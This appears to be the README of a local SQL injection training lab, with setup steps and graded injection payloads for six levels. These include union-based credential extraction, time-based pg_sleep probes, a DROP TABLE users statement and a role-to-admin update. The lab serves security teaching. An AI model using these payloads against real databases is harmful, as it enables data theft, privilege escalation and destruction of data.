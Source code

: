 # SQL Injection Lab - Quick Start Guide

## 🚀 Quick Setup (3 methods)

### Method 1: Docker (Fixed - Recommended)
```bash
# 1. Stop any processes using port 3000
docker-start.bat    # Windows (handles port conflicts automatically)

# OR manually:
docker-compose down
docker-compose up -d --build

# 2. Access the lab
open http://localhost:3000
```

### Method 2: Easy Local Development
```bash
# 1. Start database only
start-lab.bat    # Windows
./setup-db.sh   # Linux/Mac

# 2. Install and run app locally
npm install
npm run dev

# 3. Access the lab
open http://localhost:3000
```

### Method 3: Alternative Ports (if port 3000 conflicts)
```bash
# Uses port 3001 instead of 3000
docker-compose -f docker-compose.alt.yml up -d
# Access at http://localhost:3001
```

## 🛠️ Troubleshooting

### ✅ Docker Port 3000 Error - FIXED!
The previous Docker port conflict has been resolved. The new setup:
- Automatically stops conflicting processes
- Uses proper healthchecks
- Includes restart policies
- Better error handling

### Common Issues:
```bash
# If port still in use:
netstat -ano | findstr :3000
taskkill /PID <PID_NUMBER> /F

# Clean Docker setup:
docker-compose down
docker container prune -f
docker-compose up -d --build

# Alternative port:
docker-compose -f docker-compose.alt.yml up -d
# Access at http://localhost:3001
```

## 🎯 First Steps

1. **Start with Level 1** - Basic string injection
2. **Try this payload**: `' OR '1'='1' --`
3. **Analyze the response** to understand the vulnerability
4. **Progress through levels** as you master each technique

## 🔍 Test Payloads

### Level 1 (Basic String Injection)
```sql
' OR '1'='1' --
' OR 1=1 --
admin' --
```

### Level 2 (Numeric Injection)
```sql
1 OR 1=1
1 UNION SELECT username, password FROM users
```

### Level 3 (Union-based)
```sql
' UNION SELECT username, password, email, role, id FROM users --
' UNION SELECT version(), user(), 3, 4, 5 --
```

### Level 4 (Blind Boolean)
```sql
' AND (SELECT COUNT(*) FROM users) > 0 --
' AND 1=1 --
' AND 1=2 --
```

### Level 5 (Time-based)
```sql
'; SELECT pg_sleep(5) --
'; SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END --
```

### Level 6 (Second-order)
```sql
admin'; DROP TABLE users--
test'; UPDATE users SET role='admin'--
```

## 🛡️ Learning Objectives

- ✅ Understand SQL injection fundamentals
- ✅ Master different injection techniques
- ✅ Learn defense strategies
- ✅ Practice ethical hacking skills
- ✅ Recognize real-world vulnerabilities

## ⚠️ Remember
This is for **educational purposes only**. Never test on systems you don't own!

Happy Learning! 🎓
